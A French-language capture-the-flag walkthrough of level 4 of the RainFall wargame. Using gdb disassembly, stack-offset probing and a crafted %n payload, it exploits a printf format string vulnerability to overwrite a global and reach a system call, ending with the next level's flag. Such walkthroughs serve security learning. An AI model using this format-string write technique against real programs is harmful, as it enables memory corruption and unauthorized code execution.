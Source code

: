 # **Level 4**

Pour le `level5`, c'est la meme chose que le precedant nous avons un executable, en le desassemblant dans `gdb`, on remarque qu'il utilise `printf` pour afficher l'entree de l'utilisateur sur le terminal

```
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   %ebp
   0x08048458 <+1>:     mov    %esp,%ebp
   0x0804845a <+3>:     sub    $0x218,%esp
   0x08048460 <+9>:     mov    0x8049804,%eax
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp)
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    0x8049810,%eax
=> 0x08048492 <+59>:    cmp    $0x1025544,%eax
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp)
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax
   0x0804844d <+9>:     mov    %eax,(%esp)
=> 0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```
On remarque en lisant le code qu'il compare le contenue de l'addresse `0x8049810` à `0x1025544` et que si les deux valeurs sont egales, il continue sinon le programme se termine.

```
   0x0804848d <+54>:    mov    0x8049810,%eax
=> 0x08048492 <+59>:    cmp    $0x1025544,%eax
```


On test le programme

```
level4@RainFall:~$ ./level4
d
d
level4@RainFall:~$ ./level4
%x
b7ff26b0
```
On a de nouveau une `format string vulnerability`

En mettant un formatteur de string en entree, celui la est traduit pour renvoyer une valeur, cela signifie que le programme est vulnerable a ce qu'on appelle les `format string attack`

> [Format string attack](https://owasp.org/www-community/attacks/Format_string_attack)

Il faut trouver a quelle position notre addresse se trouve au moment du printf

```
level4@RainFall:~$ python -c "print'\x10\x98\x04\x08'+'%p '*20" > /var/crash/file
level4@RainFall:~$ cat /var/crash/file - | ./level4
0xb7ff26b0 0xbffff794 0xb7fd0ff4 (nil) (nil) 0xbffff758 0x804848d 0xbffff550 0x200 0xb7fd1ac0 0xb7ff37d0 0x8049810 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

On trouve quelle est a la 12eme position donc nous pouvons construire notre payload sachant qu'on compare notre valeur a `0x1025544` soit `16930116`

```
python -c 'print"\x10\x98\x04\x08"+"%16930112X%12$n"'
```

> On mets `%16930112X` car on ecrit deja 4 caractere au debut

On execute le tout

```
level4@RainFall:~$ python -c 'print"\x10\x98\x04\x08"+"%16930112X%12$n"' > /var/crash/file
level4@RainFall:~$ cat /var/crash/file - | ./level4

....

                        B7FF26B0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

> ### NEXT : [Level 5](/level5/resources/README.md)
